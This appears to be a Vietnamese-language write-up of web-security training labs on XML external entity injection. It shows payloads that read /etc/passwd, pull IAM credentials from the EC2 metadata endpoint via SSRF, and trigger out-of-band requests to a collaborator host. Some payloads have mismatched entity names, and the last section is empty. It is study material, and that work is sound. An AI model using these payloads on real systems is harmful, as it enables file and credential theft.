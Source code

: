 # XML external entity (XXE) injection

## Exploiting XXE to retrieve files

### 1. Exploiting XXE using external entities to retrieve files

**Yêu cầu**
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file. 

**Thực hiện**
- Quan sát gói tin request và response của chức năng checkStock.
![alt text](image.png)

- Nhận thấy ở tính năng sử dụng XML để thực hiện việc truy vấn. Vì thế ta có thể nghĩ tới XXE injection.
```XML
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE data [<!ENTITY execute SYSTEM "file:///etc/passwd">]>
<stockCheck><productId>&execute;</productId><storeId>1</storeId>
</stockCheck>
```
![alt text](image-1.png)

**Note**
Ở bài lab này hệ thống đã cho phép XML External Intity thông qua việc tự khai báo ngay trong tài liệu XML. 
=> Có thể thực thi lệnh đọc file hệ thống bằng cách sử dụng entity SYSTEM trỏ đến file mục tiêu, ví dụ:` file:///etc/passwd` trên Linux hoặc `file:///C:/Windows/system32/drivers/etc/hosts` trên Windows.

## Exploiting XXE to perform SSRF attacks

### 2.Exploiting XXE to perform SSRF attacks

**Yêu cầu**
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

**Thực hiện**
- Tương tự bài lab trên, thực hện quan sát gói tin request và response của chức năng checkStock
- Trong bài này cần phải lấy được secret key từ `EC2 metada enpoint`
Payload:
```XML
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE data [<!ENTITY vul SYSTEM "http://169.254.169.254/">]>
<stockCheck><productId>&vul;</productId><storeId>1</storeId>
</stockCheck>
```
![alt text](image-2.png)

- Dựa vào kết quả trả về Product ID không hợp lệ : `latest` => ta biết các thông tin về thư mục đường dẫn.
- Cứ lần lượt như vậy ta có thể trích xuất được danh sách `IAM Role` qua đường dẫn sau: `http://169.254.169.254/latest/meta-data/iam/security-credentials/`
![alt text](image-3.png)

- Trích xuất thông tin của role `admin`
![alt text](image-4.png)

**Note**
Chúng ta có thể kết hợp với lỗ hổng SSRF nhằm mở rộng phạm vi tấn công như trơng bài lab là sử dụng SSRF kết hợp để trích xuất dữ liệu nhạy cảm của EC2.

Một mục tiêu điển hình thường được nhắm tới đối với các server được cung cấp bởi AWS là các dữ liệu instance metadata. Instance metadata trên AWS là thông tin về một máy chủ (instance) được cung cấp bởi AWS. Dữ liệu này phục vụ cho việc cài đặt, cấu hình và quản lý các instance đang chạy. Instance metadata bao gồm nhiều loại thông tin như hostname, sự kiện hệ thống, nhóm bảo mật và các thiết lập khác.  

Các dữ liệu này rất quan trọng và cần được bảo vệ vì chúng có thể chứa thông tin nhạy cảm về hệ thống, bao gồm cả quyền truy cập và cấu hình bảo mật của server. Nếu bị lộ, hacker có thể lợi dụng để truy cập trái phép vào hệ thống hoặc thực hiện các hành vi tấn công nguy hiểm.

## Detecting blind XXE using out-of-band (OAST) techniques

### 3. Blind XXE with out-of-band interaction

**Yêu cầu**
This lab has a "Check stock" feature that parses XML input but does not display the result.
You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.
To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

**Thực hiện**
- Quan sát gói tin request và response trả về. Thử thay đổi trường `<productID>` trong XML thì kết quả trả về không còn hiện thị nội dung chuỗi như các bài lab trên -> Blind
![alt text](image-5.png)

- Ý tưởng tương tự như SSRF chúng ta có thể thực hiện gửi một truy vấn DNS tới dải bên ngoài để kiểm tra xem liệu có thể có lỗ hổng injection ở đây hay không
Payload:
```XML
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE stockCheck [ <!ENTITY abc SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
<stockCheck><productId>&vul;</productId><storeId>1</storeId>
</stockCheck>
```
![alt text](image-6.png)

- Vậy là hoàn thành bài lab.

**Note**
Ý tưởng này chính là ý tưởng kiểm tra lỗ hổng SSRF thông qua kênh ngoài ( OUT OF BAND).

---

### 4. Blind XXE with out-of-band interaction via XML parameter entities

**Yêu cầu**
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.
To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

**Thực hiện**
- Cũng như bài lab trên ta có thể thử luôn bằng payload được sử dụng bên trên.
![alt text](image-7.png)

- Thông báo Entities này không được phép sử dụng, chúng ta sẽ bypass bằng cách sử dụng `parameter entities`.
Payload
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % vul SYSTEM "http://4kpiymbe71yksume6vrf58pdx43vrlfa.oastify.com">]>
<stockCheck><productId>% vul</productId><storeId>1</storeId></stockCheck>
```
![alt text](image-8.png)
![alt text](image-9.png)
![alt text](image-10.png)

- Hoàn thành bài lab
**Note**
Sự khác biệt giữa Regular Entities và Parameter Entities trong XXE

| Loại Entity       | Regular Entities                        | Parameter Entities                        |
|-------------------|-----------------------------------------|-------------------------------------------|
| Cú pháp khai báo  | `<!ENTITY name "value">`                | `<!ENTITY % name "value">`                |
| Cú pháp gọi       | `&name;`                                | `%name;`                                  |
| Phạm vi sử dụng   | Có thể sử dụng trực tiếp trong nội dung XML | Chỉ có thể sử dụng bên trong DTD          |
| Mục đích khai thác XXE | Đọc file, SSRF, OOB khi hệ thống không chặn entity | Dùng khi hệ thống chặn regular entity nhưng vẫn xử lý DTD |
| Ví dụ khai báo    | `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | `<!ENTITY % xxe SYSTEM "file:///etc/passwd">` |
| Ví dụ gọi         | `<data>&xxe;</data>`                    | `%xxe;` (chỉ dùng trong DTD)              |

Tại sao lại hiện `"XML parsing error"` ??? 

## Exploiting blind XXE to exfiltrate data out-of-band

### 5. Exploiting blind XXE to exfiltrate data using a malicious external DTD
**Yêu cầu**
**Thực hiện**
**Note**
